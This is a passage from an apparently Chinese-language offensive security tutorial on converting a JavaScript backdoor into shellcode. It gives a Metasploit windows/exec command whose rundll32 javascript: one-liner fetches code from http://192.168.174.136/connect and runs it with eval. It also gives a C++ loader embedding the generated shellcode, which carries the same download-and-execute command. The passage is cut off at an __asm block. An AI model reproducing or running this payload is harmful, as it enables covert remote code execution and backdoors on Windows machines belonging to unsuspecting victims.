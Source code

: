 如下图可以看到弹框，shellcode执行成功

![Alt text](http://drops.javaweb.org/uploads/images/24a0cff3cdbaeab9f1c90666e77a185efb0b2734.jpg)

### 2、将JavaScript Backdoor转换成shellcode

**msf：**

```
use windows/exec 
set CMD rundll32.exe javascript:\"\\..\\mshtml,RunHTMLApplication \";document.write();h=new%20ActiveXObject(\"WinHttp.WinHttpRequest.5.1\");h.Open(\"GET\",\"http://192.168.174.136/connect\",false);try{h.Send();B=h.ResponseText;eval(B);}catch(e){new%20ActiveXObject(\"WScript.Shell\").Run(\"cmd /c taskkill /f /im rundll32.exe\",0,true);}
generate -t c

```

如图![Alt text](http://drops.javaweb.org/uploads/images/c175960e8eecd6b3a6ac0ff5b6e6937b5bf73c4c.jpg)

放在c++中测试shellcode，代码如下

```
#include "stdafx.h"
int APIENTRY WinMain(HINSTANCE hInstance,
                     HINSTANCE hPrevInstance,
                     LPSTR     lpCmdLine,
                     int       nCmdShow)
{
    unsigned char buf[] = 
"\xfc\xe8\x82\x00\x00\x00\x60\x89\xe5\x31\xc0\x64\x8b\x50\x30"
"\x8b\x52\x0c\x8b\x52\x14\x8b\x72\x28\x0f\xb7\x4a\x26\x31\xff"
"\xac\x3c\x61\x7c\x02\x2c\x20\xc1\xcf\x0d\x01\xc7\xe2\xf2\x52"
"\x57\x8b\x52\x10\x8b\x4a\x3c\x8b\x4c\x11\x78\xe3\x48\x01\xd1"
"\x51\x8b\x59\x20\x01\xd3\x8b\x49\x18\xe3\x3a\x49\x8b\x34\x8b"
"\x01\xd6\x31\xff\xac\xc1\xcf\x0d\x01\xc7\x38\xe0\x75\xf6\x03"
"\x7d\xf8\x3b\x7d\x24\x75\xe4\x58\x8b\x58\x24\x01\xd3\x66\x8b"
"\x0c\x4b\x8b\x58\x1c\x01\xd3\x8b\x04\x8b\x01\xd0\x89\x44\x24"
"\x24\x5b\x5b\x61\x59\x5a\x51\xff\xe0\x5f\x5f\x5a\x8b\x12\xeb"
"\x8d\x5d\x6a\x01\x8d\x85\xb2\x00\x00\x00\x50\x68\x31\x8b\x6f"
"\x87\xff\xd5\xbb\xf0\xb5\xa2\x56\x68\xa6\x95\xbd\x9d\xff\xd5"
"\x3c\x06\x7c\x0a\x80\xfb\xe0\x75\x05\xbb\x47\x13\x72\x6f\x6a"
"\x00\x53\xff\xd5\x72\x75\x6e\x64\x6c\x6c\x33\x32\x2e\x65\x78"
"\x65\x20\x6a\x61\x76\x61\x73\x63\x72\x69\x70\x74\x3a\x22\x5c"
"\x2e\x2e\x5c\x6d\x73\x68\x74\x6d\x6c\x2c\x52\x75\x6e\x48\x54"
"\x4d\x4c\x41\x70\x70\x6c\x69\x63\x61\x74\x69\x6f\x6e\x20\x22"
"\x3b\x64\x6f\x63\x75\x6d\x65\x6e\x74\x2e\x77\x72\x69\x74\x65"
"\x28\x29\x3b\x68\x3d\x6e\x65\x77\x25\x32\x30\x41\x63\x74\x69"
"\x76\x65\x58\x4f\x62\x6a\x65\x63\x74\x28\x22\x57\x69\x6e\x48"
"\x74\x74\x70\x2e\x57\x69\x6e\x48\x74\x74\x70\x52\x65\x71\x75"
"\x65\x73\x74\x2e\x35\x2e\x31\x22\x29\x3b\x68\x2e\x4f\x70\x65"
"\x6e\x28\x22\x47\x45\x54\x22\x2c\x22\x68\x74\x74\x70\x3a\x2f"
"\x2f\x31\x39\x32\x2e\x31\x36\x38\x2e\x31\x37\x34\x2e\x31\x33"
"\x36\x2f\x63\x6f\x6e\x6e\x65\x63\x74\x22\x2c\x66\x61\x6c\x73"
"\x65\x29\x3b\x74\x72\x79\x7b\x68\x2e\x53\x65\x6e\x64\x28\x29"
"\x3b\x42\x3d\x68\x2e\x52\x65\x73\x70\x6f\x6e\x73\x65\x54\x65"
"\x78\x74\x3b\x65\x76\x61\x6c\x28\x42\x29\x3b\x7d\x63\x61\x74"
"\x63\x68\x28\x65\x29\x7b\x6e\x65\x77\x25\x32\x30\x41\x63\x74"
"\x69\x76\x65\x58\x4f\x62\x6a\x65\x63\x74\x28\x22\x57\x53\x63"
"\x72\x69\x70\x74\x2e\x53\x68\x65\x6c\x6c\x22\x29\x2e\x52\x75"
"\x6e\x28\x22\x63\x6d\x64\x20\x2f\x63\x20\x74\x61\x73\x6b\x6b"
"\x69\x6c\x6c\x20\x2f\x66\x20\x2f\x69\x6d\x20\x72\x75\x6e\x64"
"\x6c\x6c\x33\x32\x2e\x65\x78\x65\x22\x2c\x30\x2c\x74\x72\x75"
"\x65\x29\x3b\x7d\x00";

__asm{
```